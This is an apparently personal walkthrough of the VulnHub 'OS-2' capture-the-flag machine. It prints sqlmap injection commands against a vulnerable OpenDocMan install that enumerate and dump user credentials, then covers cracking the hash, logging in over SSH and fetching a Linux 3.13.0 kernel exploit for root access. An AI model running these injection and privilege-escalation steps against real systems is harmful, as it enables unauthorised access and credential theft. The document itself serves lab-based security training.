 # ***VulnHub OS - 2***
> Keertan singh, 06/19/2022

## Let's crack it
- IP Address of Machine : 
```
export IP=192.168.X.X
```

- As we can see that this section is hidden, and when we highlight it, we get to know that we have to go to:
```
http:<your_Machine_ip>/jabcd0cs/
```
![alt text](jabcd0cs.png)

- We can see that this is 'opendocman v1.2.7'. which is vulnerable. to let search exploit for it...
![alt text](opendocmanversion.png)

- Here is exploit for it...
![alt text](openexploit.png)
![alt text](openhint.png)

- Get all the data base, There is 'jabcdos' database with is look interest.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" --dbms=mysql --dbs
```
![alt text](database.png)

- let find all the table of jabcd0cs database.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs --dbms=mysql --tables
```

- let find all the columns of odm_user's tables.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user --dbms=mysql --columns
```

- Let dump the data..
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user -C username,password,email,phone --dbms=mysql --dump
```
![alt text](credientials.png)

- we got a username as webmin and its password in hash form. so let's crack this hash.
![alt text](webmin%20pass.png)

- Password of webmin is:
```
webmin1980
```
- we know that ssh port is open on this machine, so we can login..
![alt text](login.png)

- Type uname -a command and we get to know that it has 'linux kernal version 3.13.0'. that is vulnerable too.. :
```
uname -a
```

- let's find exploit for this..
```
searchsploit linux 3.13.0
```
![alt text](expolit.png)

 - I have get this expolit in my current directory, and starting python server, so that we can download..
 ![alt text](python.png)

 - I have download this kernal.c file on our machine..
 ![alt text](dow.png)
 - So let's get root access and flag...
 ![alt text](donw.png)



